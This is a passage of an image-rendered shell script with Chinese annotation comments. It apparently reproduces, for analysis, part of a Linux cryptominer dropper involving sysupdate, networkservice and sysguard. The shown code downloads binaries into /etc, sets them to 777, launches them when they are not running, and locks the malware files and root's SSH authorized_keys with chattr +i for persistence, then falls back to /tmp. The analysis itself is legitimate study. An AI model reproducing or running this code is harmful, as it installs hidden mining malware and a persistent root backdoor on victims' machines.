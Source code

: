 ```
else
downloads $scan_url /etc/networkservice $scan_url_backup
fi
 
# 所有用户都有读写执行权限，然后检测有没有执行，如果没执行，就睡5s，然后执行
chmod 777 /etc/sysupdate
ps -fe|grep sysupdate |grep -v grep
if [ $? -ne 0 ]
then
cd /etc
echo "not root runing"
sleep 5s
./sysupdate &amp;
else
echo "root runing....."
fi
# 所有用户都有读写执行权限，然后检测有没有执行，如果没执行，就睡5s，
# 然后按优先级15 来执行，不知道为啥要按15来执行
chmod 777 /etc/networkservice
ps -fe|grep networkservice |grep -v grep
if [ $? -ne 0 ]
then
cd /etc
echo "not roots runing"
sleep 5s
nice ./networkservice 15 &amp;
else
echo "roots runing....."
fi
 
# 此处类似，略
chmod 777 /etc/sysguard
ps -fe|grep sysguard |grep -v grep
if [ $? -ne 0 ]
then
echo "not tmps runing"
cd /etc
# 不知道此处为啥重复两遍
chmod 777 sysguard
sleep 5s
./sysguard &amp;
else
echo "roots runing....."
fi
 
# 依次加锁
chmod 777 /etc/sysupdate
chattr +i /etc/sysupdate
chmod 777 /etc/networkservice
chattr +i /etc/networkservice
chmod 777 /etc/config.json
chattr +i /etc/config.json
chmod 777 /etc/update.sh
chattr +i /etc/update.sh
chmod 777 /root/.ssh/authorized_keys
chattr +i /root/.ssh/authorized_keys
 
else
# 如果不存在"/etc/sysupdates"介个文件，则在tmp里操作
echo "goto 1" &gt; /tmp/sysupdates
chattr -i /tmp/sysupdate*
chattr -i /tmp/networkservice
chattr -i /tmp/config.json*
```